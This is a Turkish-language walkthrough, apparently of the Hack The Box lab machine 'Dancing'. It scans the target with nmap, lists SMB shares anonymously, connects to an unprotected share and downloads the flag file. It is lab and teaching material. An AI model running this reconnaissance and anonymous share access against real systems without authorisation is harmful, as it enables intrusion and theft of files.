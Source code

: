 ```yaml
---
glightbox: true
---
```


# Dancing

!!! info "Target IP Address"

    10.129.20.116

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.20.116 -sV
```

```text title="Output" hl_lines="8"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:02 +03
Nmap scan report for 10.129.20.116
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.85 seconds
```

Aşağıdaki komut ile mevcut Share klasörlerini listele:

```bash
smbclient -N -L 10.129.20.116
```

```text title="Output" hl_lines="6"
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.20.116 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Bulunan `WorkShares` klasörüne SMB bağlantısı gerçekleştir:

```bash
smbclient -N //10.129.20.116/WorkShares
```

Aşağıdaki komut ile bayrağı yerel makineye indir:

```text
get James.P\flag.txt
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```

